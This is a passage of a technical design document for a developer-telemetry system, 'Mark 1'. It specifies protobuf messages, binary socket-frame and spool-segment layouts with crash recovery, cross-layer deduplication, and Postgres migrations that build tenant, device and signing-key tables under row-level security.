  JUDGE_LOCUS_UNSPECIFIED = 0;
  JUDGE_LOCUS_CLIENT_SIDE = 1;  // through the customer's own key — the default
  JUDGE_LOCUS_CLOUD = 2;        // consent + subprocessor disclosure + region pin
}

message RmScore {
  string model_id = 1;             // [P0] "rm:<name>@<version>"
  double score = 2;                // [P0] raw scalar
  string calibration_version = 3;  // [P0] mapping used to fold into the ensemble
}

// Escalation-scoped only (T3 runs and escalation events); excluded from
// ensemble-size assumptions — consistency votes are not "free" members.
message ConsistencyVote {
  Verdict vote = 1;          // [P0]
  uint32 sample_count = 2;   // [P0] samples drawn
  double agreement_rate = 3; // [P0] fraction agreeing with vote
}

// ---------------------------------------------------------------------------
// Fused verdicts (contracts C3/C5)
// ---------------------------------------------------------------------------

message VerdictEvent {
  VerdictStage stage = 1;      // [P0] PROVISIONAL from mark1d fusion;
                               //      CERTIFIED/REVISED from adjudicator-svc
  Verdict verdict = 2;         // [P0] argmax of posterior
  repeated double posterior = 3; // [P0] EXACTLY 4 entries, indexed
                               // [satisfied, violated, refused, error] —
                               // the order of Verdict values 1..4
  string noise_cert_id = 4;    // [P0] empty ⇒ status is honestly
                               //      "uncertified/bootstrapping"; such verdicts
                               //      never gate memory or corpus admission
  uint64 bundle_seq = 5;       // [P0] provenance of the confusion matrices used
  uint32 vote_count = 6;       // [P0] ensemble members fused
}

enum VerdictStage {
  VERDICT_STAGE_UNSPECIFIED = 0;
  VERDICT_STAGE_PROVISIONAL = 1;  // edge fusion cache — what the stop-gate reads
  VERDICT_STAGE_CERTIFIED = 2;    // adjudicator, noise-certified
  VERDICT_STAGE_REVISED = 3;      // slow anchors / re-adjudication overturned it
}

// ---------------------------------------------------------------------------
// Injections and outcomes (contracts C6/C8)
// ---------------------------------------------------------------------------

message CortexInjection {
  bytes root_hash = 1;      // [P1] L0 merkle root the map was computed at
  uint64 index_clock = 2;   // [P0] cortexd's monotonic index generation
  uint32 token_budget = 3;  // [P0] budget the map was binary-searched into
  uint32 tokens_used = 4;   // [P0]
  InjectionChannel channel = 5; // [P0]
}

message MemoryInjection {
  repeated bytes artifact_ids = 1;  // [P1] admitted artifacts delivered
  InjectionChannel channel = 2;     // [P0]
  uint32 tokens_used = 3;           // [P0] injection cost — TVO numerator input
}

enum InjectionChannel {
  INJECTION_CHANNEL_UNSPECIFIED = 0;
  INJECTION_CHANNEL_SESSION_START = 1;
  INJECTION_CHANNEL_HOOK_CONTEXT = 2;
  INJECTION_CHANNEL_MCP_PULL = 3;
  INJECTION_CHANNEL_REACTIVE_PITFALL = 4;  // PostToolUseFailure-triggered
}

// LCB fuel: joins an injected artifact to the task's eventual verdict.
message ArtifactOutcome {
  bytes artifact_id = 1;        // [P1]
  Verdict task_verdict = 2;     // [P0]
  bool artifact_followed = 3;   // [P0] heuristic: did the trajectory use it
}

// ---------------------------------------------------------------------------
// Routing (contract C9)
// ---------------------------------------------------------------------------

message RouteDecision {
  bytes decision_id = 1;          // [P1] 16-byte UUIDv7
  string action = 2;              // [P0] chosen rung, e.g. "claude-haiku-4-5"
  repeated string candidates = 3; // [P0] the ladder considered
  double propensity = 4;          // [P0] P(action | policy). ε defaults to 0,
                                  // so this is logged HONESTLY as 1.0 — never
                                  // fabricate exploration that didn't happen;
                                  // OPE over fake propensities is confident
                                  // garbage
  RouteFidelity fidelity = 5;     // [P0]
  uint64 bundle_seq = 6;          // [P0] policy provenance
}

enum RouteFidelity {
  ROUTE_FIDELITY_UNSPECIFIED = 0;
  // The proxy rewrote the request on the wire; the decision provably bound.
  // DR/SNIPS consumes ONLY these.
  ROUTE_FIDELITY_WIRE_ENFORCED = 1;
  // We steered agent config; the agent may or may not have obeyed. Enters OPE
  // only after a served-model confirmation join against Usage events.
  ROUTE_FIDELITY_CONFIG_STEERED = 2;
  // A suggestion surfaced to the human. Never enters OPE.
  ROUTE_FIDELITY_ADVISORY = 3;
}
```

**Why every low-entropy digest is per-tenant HMAC, not plain hash.** Compiler diagnostics, error signatures, file sets, and prompts have small effective vocabularies; a plain SHA-256 of them is invertible by dictionary in minutes, and identical hashes across tenants leak "org A and org B hit the same failure in the same code" — a correlation Omium must be *unable* to make, not merely forbidden to. Keying every digest with a per-tenant HMAC key closes both attacks cryptographically: inversion needs the tenant's key, and equal plaintexts produce unequal digests across tenants. Globally-joinable digests come into existence only downstream of the (k,m) federation gate, which is out of this document's scope.

**Evidence tiers — what is populated where:**

| Tier | Availability | On the wire |
|---|---|---|
| E0 | Always (default) | `EvidenceRecord` only, all six fields; no `EvidenceExcerpt` exists. Modeled as a low-power ensemble member — honesty about what typed evidence can support |
| E1 | Per-tenant opt-in | E0 fields + `EvidenceExcerpt{tier: E1}` with sanitized diff hunks as a multipart attachment and a mandatory `redaction_receipt_id` |
| E2 | VPC gateway / self-host only | E0 fields + `EvidenceExcerpt{tier: E2}` with the full diff attachment; never available on the Omium-cloud path |

## 5. M1PL local frame format

The local fabric carries final `m1p.v1.Event` messages from the writers (`mark1-hookshim`, `mark1-proxy`, `cortexd`, the tailers) to `mark1d`. **`mark1d` is the only spool writer** — every frame passes admit-to-upload redaction before spool admission, so a single durability implementation and a single redaction chokepoint exist by construction.

```text
M1PL/1 frame
============
offset  size  field
------  ----  -----------------------------------------------------------
0       4     magic   'M1PL'  (0x4D 0x31 0x50 0x4C)
4       1     ver     0x01 for M1PL/1; unknown ver ⇒ close the connection
5       4     len     u32 little-endian, length of payload in bytes.
                      BOUND: len ≤ 4_194_304 (4 MiB). len == 0 or
                      len > bound ⇒ protocol error, close the connection.
9       len   payload one encoded m1p.v1.FabricFrame (D-U)
```

- **D-U (lead, binding): the payload is one serialized `m1p.v1.FabricFrame`** — a oneof over `Event` and the D-N control set. This line previously said "one encoded m1p.v1.Event" while §4.2's control table rode the same stream; proto3 bytes are not self-describing, so both ends would have had to invent the Event-vs-control discriminator independently — the D-N hole class again. `Event` holds field 1 (the common case pays the smallest tag). `mark1d` unwraps and spools the **inner Event bytes**, so §6's record layout is unchanged and control messages stay structurally unspoolable: admission takes the Event, not the frame.

- **The bound exists for the decoder, not the data.** No typed `m1p.v1` event approaches 4 MiB (excerpt payloads travel as HTTPS multipart attachments, never over the fabric), so the bound costs nothing — and it makes the maximum allocation from any single corrupt or hostile length byte provably 4 MiB instead of 4 GiB. The frame decoder in `m1p-wire` is a CI fuzz target; a bounded `len` is what makes that fuzzing meaningful memory-safety evidence rather than an OOM lottery.
- Little-endian because it matches every target architecture's native order and the spool record framing (§6), so one codepath serves both.
- **Transport and permissions.** Unix domain socket at `$XDG_RUNTIME_DIR/omium-mark1/m1p.sock` (fallback `~/.omium/mark1/m1p.sock`), created `0600` with a `0700` parent directory — only the enrolled OS user can connect; there is no group or world grant, ever. On Windows: named pipe `\\.\pipe\omium-mark1-<user-SID>` with a DACL granting access to the owning user's SID only (the SID in the name prevents squatting collisions between users; the DACL is the actual boundary).
- **Who may write:** hookshim, proxy, cortexd, and the tailers. Anything else connecting can only be same-user code, which already owns the machine — the fabric's threat model is other users and accidents, not the owner.
- Where an agent cannot exec the shim, the loopback-HTTP fallback listener requires a per-session bearer token (0600 file), literal-loopback `Host` validation, and `Origin` rejection; it decodes into the same `Event` and enters `mark1d` through the same admission path — no second trust class exists.
- **Control messages** (`Hello`/`HelloAck`, `GateQuery`/`GateVerdict`, `Flush`/`FlushAck`) are defined in `m1p/v1/fabric.proto` (D-N) with `08` §4.2's field sets, transcribed. They ride M1PL frames on the fabric ONLY — never the spool, never the wire, never `Event.body` — which is why none of them carries an `event_id`, a durability class, or anything from the server-stamped band. `08` §4.3 owns the handshake semantics; this document owns only the statement that the set exists and where it may travel.

## 6. Spool segment binary layout

Vector-disk-v2 shape, implemented in Go inside `mark1d` (the single writer). Directory: `~/.omium/mark1/spool/`, files `seg-<segment_seq:016x>.m1s` plus one `spool.ledger`.

```text
Segment file (64 MiB append-only; rotated when the next record would overflow)
==============================================================================
offset  size  field
------  ----  -----------------------------------------------------------
0       4     magic        'M1SG' (0x4D 0x31 0x53 0x47)
4       1     ver          0x01
5       3     reserved     zero
8       8     segment_seq  u64 LE, globally monotonic per daemon
16      8     created_at   u64 LE, unix nanoseconds
24      40    reserved     zero (header padded to 64 bytes so records start
                           at a fixed, cache-line-aligned offset)
64      ...   records, back to back

Record framing
==============
offset  size      field
------  --------  -------------------------------------------------------
0       4         len        u32 LE = 20 + payload length.
                             BOUND: 20 < len ≤ 4_194_324 (§5 payload bound
                             + record_id) — same rationale, same fuzz target
4       4         crc32c     u32 LE (Castagnoli), over record_id || payload
8       20        record_id  [0..16)  event_id — the leading 16 bytes ARE the
                                      UUIDv7, so the spool cursor IS the wire
                                      idempotency key
                             [16]     durability class: 1=billing-grade
                                      (usage/verdict/receipt-checkpoint),
                                      2=diagnostic — carried outside the
                                      payload so full-spool policy applies
                                      without decoding protobuf
                             [17..20) reserved zero
28      len - 20  payload    one encoded m1p.v1.Event

spool.ledger (fixed 128 bytes: two 64-byte A/B slots; access method is
NOT normative — Vector-disk-v2 mmaps it, mark1d uses pwrite/pread+fsync,
and the crash-safety never rested on either: it rests on the A/B slot
alternation plus the per-slot CRC, which make a torn write by any method
land on the older consistent slot)
=============================================================
offset  size  field        (per slot; slot B at +64)
------  ----  -----------------------------------------------------------
0       8     generation   u64 LE, incremented every ledger write
8       8     write_seq    u64 LE, segment holding the write head
16      8     write_off    u64 LE, offset of the first unwritten byte
24      8     ack_seq      u64 LE, segment holding the ack (upload) cursor
32      8     ack_off      u64 LE, offset of the first unacked record
40      4     crc32c       u32 LE over bytes 0..40 of the slot
44      20    reserved     zero
```

The writer alternates slots and updates the ledger only *after* a segment fsync; the reader takes the highest-generation slot with a valid CRC. A/B slots make a torn ledger write harmless — the older consistent slot survives, and a stale ledger only causes re-scanning, never data loss.

**Operational policy.**

- **Typed-event size bound at admission: 1 MiB, matching ingest's decode bound (`05` §2.1).** The 4 MiB frame/record bounds above are TRANSPORT bounds — they exist for the decoder's allocation safety, not as a statement that a 3 MiB event is legal. Ingest refuses any single event over 1 MiB, so `mark1d` admission enforces the same bound *before* spooling (over-limit ⇒ refused with `Dropped` accounting, never spooled): an event the server is contractually bound to refuse must not be allowed to occupy billing-grade spool space and then poison the batch that carries it into quarantine. One bound, both ends, and the gap between 1 MiB and 4 MiB stays what it is — decoder headroom.
- **fsync cadence 250–500 ms, adaptive:** 250 ms whenever billing-grade records are pending, 500 ms when only diagnostics are — the durability window tracks the value of what's in it. `SessionEnd` and daemon shutdown force a full drain (fsync + upload attempt) regardless.
- **Caps:** ~2 GiB total spool, and a hard stop when the disk hits 95% regardless of the spool's own size — Mark 1 never gets to be the reason a developer's machine fills up. At the hard stop, capture degrades and a `CoverageTransition{BYPASS, reason_code:"disk_hard_stop"}` is emitted, so the gap is attributable.
- **Per-class durability. The billing-grade set is closed at exactly three families — `usage`, `verdict_event`, `receipt_checkpoint`.** Those three **block on full**: the producing UDS write stalls, backpressure reaches the shim/tailer, and nothing billing-grade is ever silently shed. **Every other family is class byte 2, diagnostic, drop-newest** — `CoverageTransition` included. Receipted and block-on-full are independent properties: `CoverageTransition` is per-event receipted (§Coverage) *and* diagnostic-class, and inferring one from the other is the re-derivation this closure exists to stop. Widening the set is not an additive change — it changes what a spool full-stop does to a developer's keystroke — so it is a `m1p.v2` conversation, not a field comment. Every shed and every CRC loss emits `Dropped{reason, durability_class, quantity}` in the next batch.
- Fully-acked segments are deleted whole (ack-then-delete); there is no in-place compaction to get wrong.

**Recovery after an unclean shutdown:**

1. Read `spool.ledger`; select the slot with the highest `generation` whose CRC verifies. Both invalid (first boot or ledger corruption) ⇒ `write_seq/write_off` = lowest existing segment at offset 64, `ack_seq/ack_off` the same.
2. Open segment `write_seq` and scan forward from `write_off`. The ledger is only ever *behind* the true durable end (it's updated post-fsync), so scanning forward finds records the ledger hasn't caught up to.
3. Per record: read `len`; if fewer than 4 bytes remain, or `len` violates its bound, or fewer than `len + 4` bytes remain, or `crc32c` fails over `record_id || payload` — **the tail is torn**: truncate the segment to the last good record boundary and stop. A torn final record is *expected* after `kill -9` (it was mid-write and never fsync-acked); truncation discards it deterministically instead of letting a half-record poison every future scan.
4. Anything discarded at step 3 that was billing-grade is accounted: the daemon emits `Dropped{CRC_LOSS, durability_class, quantity}` in its first batch. The class comes from byte [16] of the discarded record's `record_id`, which sits before the payload and therefore survives a torn or CRC-failing payload — the reason the class rides outside the protobuf at all (§3). The loss window is bounded by the fsync cadence; it is never silent.
5. Resume upload from `(ack_seq, ack_off)`: every record in `(ack, write]` is re-sent. This is deliberately at-least-once — re-sends are harmless **because the leading 16 bytes of each `record_id` are the `event_id` the server dedupes on**. The replay algorithm needs no dedupe state of its own; the identity design already paid for it.
6. Update the ledger to the recovered `(write, ack)` pair and resume normal appends.

## 7. Cross-layer identity and dedupe

One key crosses three layers. Each layer dedupes the duplicates only it can see; no single layer can see all three kinds.



| Layer | Key | Duplicates it exists to kill | On conflict |
|---|---|---|---|
| Edge (tailer, in `mark1d`) | `(message.id, requestId)` + sidechain rule | Streaming transcript rewrites of one assistant message (up to 4 lines, the ~2.5× overcount) and subagent sidechain re-logs | Later line replaces the pending Usage before emission; sidechain lines are never emitted at all |
| Ingest (`controld.ingest`) | `event_id` (and `idem_key` for Usage) | Network retries: at-least-once upload + spool crash-replay re-send whole batches | Already-seen `event_id` is dropped and the batch still acks 200 — retries are cheap and safe by design |
| Storage (ClickHouse) | `ReplacingMergeTree` on `event_id`; Usage rollup on `idem_key` keeping `max(event_id)` | Whatever slips both layers: replays from the S3 replay log, backfills, duplicates split across ingest batches | Replacing-merge keeps one row per key at merge time; readers use `FINAL`/`argMax` until parts merge |

**Why three layers rather than one.** Each layer's duplicates are invisible to the others: only the tailer can know two transcript lines describe one message (the server sees two well-formed events with distinct `event_id`s — which is why `idem_key` must be computed at the edge as a protocol invariant); only ingest sees a retried batch before it becomes rows; only the storage engine survives operator-driven replay and backfill, which bypass live ingest entirely. Collapsing to one layer means choosing which duplicate class to bill the customer for. Three layers, one key discipline: `message.id` feeds `idem_key`, `event_id` names the event everywhere else, and no layer invents a second identity.


## Postgres — conventions and migration ordering

Postgres holds what ClickHouse structurally cannot: anything needing transactional, gap-free, read-your-writes ordering (execution-plan-v2 "Data stores"). That is the receipt chain, the tenancy/device registry it hangs off, the witness record that makes it externally checkable, and the verifier catalog whose consent state gates anchor execution. Everything high-volume (token events, rollups) is ClickHouse; nothing here is written per token.

Every migration in this document obeys the platform house style, stated once here and not repeated per file:

- **Naming** — `m1_0NN_<topic>.sql`, service prefix `m1_`, strictly increasing `NN`, never renumbered, never edited after merge. A fix is the next number.
- **Shape** — long WHY header, `BEGIN; … COMMIT;`, `CREATE TABLE IF NOT EXISTS`, `CREATE TYPE` behind a `DO $$ … IF NOT EXISTS (SELECT 1 FROM pg_type WHERE typname = …)` guard, `DROP POLICY IF EXISTS` / `DROP TRIGGER IF EXISTS` before every create, `GRANT`s guarded behind `IF EXISTS (SELECT 1 FROM pg_roles WHERE rolname = …)`, and a commented-out `-- ROLLBACK` block at the bottom. Every file is idempotent and safe to re-run under `ON_ERROR_STOP=1`.
- **RLS** — every tenant-scoped table gets `ENABLE` **and** `FORCE ROW LEVEL SECURITY`, then exactly:

  ```sql
  DROP POLICY IF EXISTS tenant_isolation ON <table>;
  CREATE POLICY tenant_isolation ON <table>
    USING (tenant_id = NULLIF(current_setting('app.tenant_id', true), '')::uuid)
    WITH CHECK (tenant_id = NULLIF(current_setting('app.tenant_id', true), '')::uuid);
  ```

  The two-arg `current_setting(..., true)` form is required: the one-arg form hard-errors when the GUC is unset, which would break every BYPASSRLS worker. The `NULLIF` is what makes an unset GUC match **nothing** rather than everything — fail-closed by construction. `WITH CHECK` appears on every table that takes writes; read-only projections may carry `USING` alone. `FORCE` is not optional: the table owner is exempt from its own policies without it, which is exactly the decorative-RLS failure the platform already paid for once (`omium-gitops/prod/schema/07_service_roles.sql` header). The runtime roles are NOBYPASSRLS `*_app` logins; their creation is a companion-part concern, but every grant below is written against them and guarded so this DDL applies cleanly on a database where the role file has not yet run.
- **No cross-service FKs.** ClickHouse `event_id`s, spool cursors and bundle ids appearing in these tables are logical keys, never foreign keys — same discipline as recovery-orchestrator's read-model.

**Ordering.** Migrations run in filename order and each file only assumes its predecessors:

| File | Contents |
|---|---|
| `m1_001_tenancy_devices.sql` | tenants, organizations, devices, enrollments, device keys |
| `m1_002_receipt_chain.sql` | `m1_receipts`, `m1_receipt_chain_head`, server signing keys, append-only enforcement |
| `m1_003_witness_heads.sql` | hourly witnessed chain heads + external publication record |
| `m1_004_verifier_registry.sql` | verifier/anchor catalog, effective-execution hashes, per-workspace consent |
| `m1_005…` | certificates, memory, artifacts, bundles, coverage, ε-ledger — companion part |
| `m1_0NN_service_roles.sql` | the `*_app` role matrix, deliberately **last** so its narrowing REVOKEs outrank every blanket grant — companion part |

**How they run in prod.** Identical to the platform: the files are kustomize-generated into a ConfigMap and applied by an Argo CD Sync-hook `Job` (the `db-migrate-job.yaml` pattern), which walks them in order and records each applied file in `schema_migrations` keyed `"${service}__${filename}"` — here `"mark1__m1_002_receipt_chain.sql"` — so a re-sync skips what has already run and a renamed file is (correctly) treated as a new one. The Job connects as the schema owner; runtime services never do.

## Tenancy, organizations and devices

`m1_001_tenancy_devices.sql`. Organizations sit **above** the tenant boundary and exist for one reason: federation's collusion collapse counts *verified organizations*, not tenants, so "verified" must be a database fact (billing relationship + domain proof, both timestamped) rather than a signup checkbox. The table has no `tenant_id`, so it cannot carry the standard policy — it is instead reachable only by `controld_app`, never on a tenant request path.

```sql
-- m1_001_tenancy_devices.sql
-- WHY: everything downstream keys on tenant_id, and the federation (k,m) gate
-- keys on ORGANIZATIONS whose verification is provable from this table alone.
-- Devices exist because receipts are dual-signed: the device origin key is an
-- identity we must be able to enroll, rotate, and revoke without ever losing
-- the ability to verify what an old key already signed. Nothing here is ever
-- DELETEd — enrollment and key history is evidence, so retirement is an UPDATE
-- of a timestamp, and the grants below hand out no DELETE to anyone.

BEGIN;

CREATE EXTENSION IF NOT EXISTS pgcrypto;

-- ---------------------------------------------------------------------------
-- (1) m1_organizations — the federation trust registry. NOT tenant-scoped.
-- ---------------------------------------------------------------------------
CREATE TABLE IF NOT EXISTS m1_organizations (
  id                       uuid PRIMARY KEY DEFAULT gen_random_uuid(),
  name                     text NOT NULL,
  -- The domain the org proved control of. Verification method recorded so an
  -- auditor can ask "proved HOW" — dns_txt is the strong answer, email the weak.
  primary_domain           text NOT NULL,
  domain_verified_at       timestamptz,
  domain_verification_method text
    CHECK (domain_verification_method IN ('dns_txt', 'email')),
  -- Stripe customer id, text because it is Stripe's key, not ours. A billing
  -- relationship is the second, independent leg of "verified": domains are
  -- cheap, invoices are not, and the (k,m) gate needs both legs so that m
  -- sock-puppet orgs collapse to zero rather than to m.
  billing_customer_id      text,
  billing_verified_at      timestamptz,
  created_at               timestamptz NOT NULL DEFAULT now(),
  -- A method without a timestamp (or vice versa) is a half-claim; refuse it.
  CONSTRAINT ck_m1_org_domain_pair
    CHECK ((domain_verified_at IS NULL) = (domain_verification_method IS NULL)),
  CONSTRAINT uq_m1_org_domain UNIQUE (primary_domain)
);

-- The federation gate's exact predicate, named here so every consumer counts
-- "verified" the same way:  domain_verified_at IS NOT NULL AND
-- billing_verified_at IS NOT NULL.  Partial index so the gate's org count is
-- an index-only scan.
CREATE INDEX IF NOT EXISTS ix_m1_org_verified
  ON m1_organizations (id)
  WHERE domain_verified_at IS NOT NULL AND billing_verified_at IS NOT NULL;

-- ---------------------------------------------------------------------------
-- (2) m1_tenants — the isolation boundary everything else FKs to.
-- ---------------------------------------------------------------------------
CREATE TABLE IF NOT EXISTS m1_tenants (
  id          uuid PRIMARY KEY DEFAULT gen_random_uuid(),
  org_id      uuid NOT NULL REFERENCES m1_organizations(id),
  name        text NOT NULL,
  -- text + CHECK rather than an enum: tenant lifecycle states will grow
  -- (trial, suspended-for-billing, ...) and ALTER TYPE ADD VALUE cannot run
  -- inside the transactional migration style this repo uses.
  status      text NOT NULL DEFAULT 'active'
                CHECK (status IN ('active', 'suspended', 'closed')),
  -- Region pinning for the cloud-judge path (contract C4); recorded at the
  -- tenant, enforced at the services.
  region      text NOT NULL DEFAULT 'us-east-1',
  created_at  timestamptz NOT NULL DEFAULT now()
);

ALTER TABLE m1_tenants ENABLE ROW LEVEL SECURITY;
ALTER TABLE m1_tenants FORCE ROW LEVEL SECURITY;
DROP POLICY IF EXISTS tenant_isolation ON m1_tenants;
-- The PK IS the tenant id, so the policy keys on id directly.
CREATE POLICY tenant_isolation ON m1_tenants
  USING (id = NULLIF(current_setting('app.tenant_id', true), '')::uuid)
  WITH CHECK (id = NULLIF(current_setting('app.tenant_id', true), '')::uuid);

CREATE INDEX IF NOT EXISTS ix_m1_tenants_org ON m1_tenants (org_id);

-- ---------------------------------------------------------------------------
-- (3) m1_devices — one row per enrolled machine.
-- ---------------------------------------------------------------------------
CREATE TABLE IF NOT EXISTS m1_devices (
  id             uuid PRIMARY KEY DEFAULT gen_random_uuid(),
  tenant_id      uuid NOT NULL REFERENCES m1_tenants(id),
  -- 'linux' | 'darwin' | 'windows'; free text because OS strings drift and a
  -- CHECK here would reject the first Windows-on-ARM machine for no benefit.
  platform       text NOT NULL,
  -- Per-tenant HMAC of the hostname, never the hostname: the wire contract
  -- says no raw identifiers leave the edge, and this table must not be the
  -- exception. 32 bytes = HMAC-SHA-256; length-checked like every digest.
  hostname_hmac  bytea NOT NULL,
  enrolled_at    timestamptz NOT NULL DEFAULT now(),
  last_seen_at   timestamptz,
  -- Revocation is columns, not a table: the record IS the device row, and a
  -- revoked device must keep existing so its historical receipts stay
  -- attributable. revoked_by is the OIDC subject that ordered it.
  revoked_at     timestamptz,
  revoked_by     text,
  revoked_reason text,
  CONSTRAINT ck_m1_devices_hostname_len CHECK (octet_length(hostname_hmac) = 32),
  CONSTRAINT ck_m1_devices_revoked_shape
    CHECK (revoked_at IS NULL OR revoked_by IS NOT NULL)
);

ALTER TABLE m1_devices ENABLE ROW LEVEL SECURITY;
ALTER TABLE m1_devices FORCE ROW LEVEL SECURITY;
DROP POLICY IF EXISTS tenant_isolation ON m1_devices;
CREATE POLICY tenant_isolation ON m1_devices
  USING (tenant_id = NULLIF(current_setting('app.tenant_id', true), '')::uuid)
  WITH CHECK (tenant_id = NULLIF(current_setting('app.tenant_id', true), '')::uuid);

-- "list this tenant's live devices" is the console's and the revocation
-- sweep's only access pattern.
CREATE INDEX IF NOT EXISTS ix_m1_devices_tenant
  ON m1_devices (tenant_id) WHERE revoked_at IS NULL;

-- ---------------------------------------------------------------------------
-- (4) m1_device_enrollments — one row per OIDC device-code grant.
-- ---------------------------------------------------------------------------
-- Kept as its own table (not columns on m1_devices) because enrollment is an
-- audit event that can fail, expire, or be denied, and each attempt is a fact
-- worth keeping; a device may re-enroll after revocation and both grants must
-- survive.
CREATE TABLE IF NOT EXISTS m1_device_enrollments (
  id                uuid PRIMARY KEY DEFAULT gen_random_uuid(),
  tenant_id         uuid NOT NULL REFERENCES m1_tenants(id),
  device_id         uuid REFERENCES m1_devices(id),   -- NULL until approved
  -- Hashes only. The raw device_code and the bearer device token are
  -- credentials; a table that stored them verbatim would be a credential
  -- vault without the vault. SHA-256, length-checked.
  device_code_hash  bytea NOT NULL,
  token_hash        bytea,                            -- set on approval
  oidc_subject      text,                             -- who approved, from the IdP
  status            text NOT NULL DEFAULT 'pending'
                      CHECK (status IN ('pending', 'approved', 'denied', 'expired', 'revoked')),
  started_at        timestamptz NOT NULL DEFAULT now(),
  token_expires_at  timestamptz,
  CONSTRAINT ck_m1_enroll_code_len  CHECK (octet_length(device_code_hash) = 32),
  CONSTRAINT ck_m1_enroll_token_len CHECK (token_hash IS NULL OR octet_length(token_hash) = 32),
  -- The plan's ≤24h token lifetime is a schema fact, not an app promise: a
  -- code path that mints a longer token fails here, loudly, at write time.
  CONSTRAINT ck_m1_enroll_token_ttl
    CHECK (token_expires_at IS NULL OR token_expires_at <= started_at + interval '24 hours'),
  -- An approved grant without a token or a device is not a grant.
  CONSTRAINT ck_m1_enroll_approved_shape
    CHECK (status <> 'approved'
           OR (device_id IS NOT NULL AND token_hash IS NOT NULL
               AND token_expires_at IS NOT NULL AND oidc_subject IS NOT NULL)),
  CONSTRAINT uq_m1_enroll_code UNIQUE (device_code_hash)
);

ALTER TABLE m1_device_enrollments ENABLE ROW LEVEL SECURITY;
ALTER TABLE m1_device_enrollments FORCE ROW LEVEL SECURITY;
DROP POLICY IF EXISTS tenant_isolation ON m1_device_enrollments;
CREATE POLICY tenant_isolation ON m1_device_enrollments
  USING (tenant_id = NULLIF(current_setting('app.tenant_id', true), '')::uuid)
  WITH CHECK (tenant_id = NULLIF(current_setting('app.tenant_id', true), '')::uuid);

-- Ingest's per-request auth lookup: token hash -> live grant. Partial, because
-- expired/denied grants are history, not lookups.
CREATE UNIQUE INDEX IF NOT EXISTS ix_m1_enroll_token
  ON m1_device_enrollments (token_hash) WHERE status = 'approved';

-- ---------------------------------------------------------------------------
-- (5) m1_device_keys — the device origin-signing keys, with rotation.
-- ---------------------------------------------------------------------------
-- Rotation NEVER deletes or overwrites: a receipt signed under a key we
-- stopped publishing is a receipt nobody can verify, which is the same as
-- never having issued it (ro_012's rule, adopted verbatim). Rotation inserts
-- the new key and stamps superseded_at on the old one; revocation stamps
-- revoked_at. Both old rows remain readable forever.
CREATE TABLE IF NOT EXISTS m1_device_keys (
  id             uuid PRIMARY KEY DEFAULT gen_random_uuid(),
  tenant_id      uuid NOT NULL REFERENCES m1_tenants(id),
  device_id      uuid NOT NULL REFERENCES m1_devices(id),
  -- "ed25519:" + first 16 hex of SHA-256(pubkey) — derived, so key_id and
  -- public_key cannot disagree; the receipt table joins on this.
  key_id         text NOT NULL,
  key_algorithm  text NOT NULL DEFAULT 'ed25519' CHECK (key_algorithm = 'ed25519'),
  public_key     bytea NOT NULL,
  created_at     timestamptz NOT NULL DEFAULT now(),
  superseded_at  timestamptz,       -- set by rotation; the successor row exists
  revoked_at     timestamptz,       -- set on compromise; verification of PAST
                                    -- receipts still uses the key, but nothing
                                    -- new signed under it is accepted
  revoked_reason text,
  CONSTRAINT ck_m1_dkeys_pub_len CHECK (octet_length(public_key) = 32),
  CONSTRAINT uq_m1_dkeys_key_id  UNIQUE (key_id)
);

ALTER TABLE m1_device_keys ENABLE ROW LEVEL SECURITY;
ALTER TABLE m1_device_keys FORCE ROW LEVEL SECURITY;
DROP POLICY IF EXISTS tenant_isolation ON m1_device_keys;
CREATE POLICY tenant_isolation ON m1_device_keys
  USING (tenant_id = NULLIF(current_setting('app.tenant_id', true), '')::uuid)
  WITH CHECK (tenant_id = NULLIF(current_setting('app.tenant_id', true), '')::uuid);

-- Exactly one live key per device: rotation is an ordered handover, not a
-- pool. Enforced structurally so a racing double-rotation cannot leave two.
CREATE UNIQUE INDEX IF NOT EXISTS uq_m1_dkeys_live
  ON m1_device_keys (device_id)
  WHERE superseded_at IS NULL AND revoked_at IS NULL;

-- ---------------------------------------------------------------------------
-- (6) Grants. controld owns enrollment and revocation (UPDATEs, no DELETEs);
-- the intelligence services only ever read identity.
-- ---------------------------------------------------------------------------
DO $$
BEGIN
  IF EXISTS (SELECT 1 FROM pg_roles WHERE rolname = 'controld_app') THEN
    GRANT SELECT, INSERT, UPDATE ON m1_organizations, m1_tenants, m1_devices,
                                    m1_device_enrollments, m1_device_keys
      TO controld_app;
  END IF;
  IF EXISTS (SELECT 1 FROM pg_roles WHERE rolname = 'adjudicator_app') THEN
    GRANT SELECT ON m1_tenants, m1_devices, m1_device_keys TO adjudicator_app;
  END IF;
  IF EXISTS (SELECT 1 FROM pg_roles WHERE rolname = 'intel_app') THEN
    GRANT SELECT ON m1_organizations, m1_tenants, m1_devices, m1_device_keys
      TO intel_app;  -- the federation gate reads org verification state
  END IF;
END $$;

REVOKE DELETE, TRUNCATE ON m1_organizations, m1_tenants, m1_devices,
                           m1_device_enrollments, m1_device_keys
  FROM PUBLIC;

COMMIT;

-- ROLLBACK (run manually if needed; destroys the identity registry, and with
-- it the ability to attribute any existing receipt to a device):
-- BEGIN;
--   DROP TABLE IF EXISTS m1_device_keys CASCADE;
--   DROP TABLE IF EXISTS m1_device_enrollments CASCADE;
--   DROP TABLE IF EXISTS m1_devices CASCADE;
--   DROP TABLE IF EXISTS m1_tenants CASCADE;
--   DROP TABLE IF EXISTS m1_organizations CASCADE;
-- COMMIT;
```

## The receipt chain

`m1_002_receipt_chain.sql`, adapted from recovery-orchestrator's `ro_012` with its every constraint preserved and four extensions: `checkpoint_seq`, `inclusion_path`, the **server countersignature** (the chain is dual-signed — device origin + server), and explicit key tables with rotation. The domain prefix is `mark1-label-v1\0`; canonicalisation is the vendored `canonical.py` (`sort_keys`, `(",",":")` separators, `ensure_ascii`), and `payload` is the exact bytes that were signed.

```sql
-- m1_002_receipt_chain.sql
-- WHY: every number Mark 1 quotes to a customer (TVO, coverage, verified
-- labels) must be backed by a record we provably cannot rewrite. The design is
-- ro_012's, adopted with its reasoning intact:
--   * per-tenant chain, gap-free seq — a gap MEANS deletion, never "an abort
--     happened", because seq comes from a locked row, not a sequence;
--   * payload is text, NOT jsonb — jsonb is a parsed representation that
--     re-orders keys and re-renders numbers, each harmless to a reader and
--     fatal to a signature over bytes;
--   * append-only three ways — trigger, TRUNCATE trigger, REVOKE — because a
--     control that survives only when a second control catches it has failed;
--   * a discontinuity is a LINK, never a repair.
-- What is new is WHO signs. The device that captured the events signs the
-- checkpoint (origin), and the server countersigns on ingest. Device-only
-- would let Omium disown a receipt ("a device made that up"); server-only
-- would let Omium mint history. Dual signatures close both directions.

BEGIN;

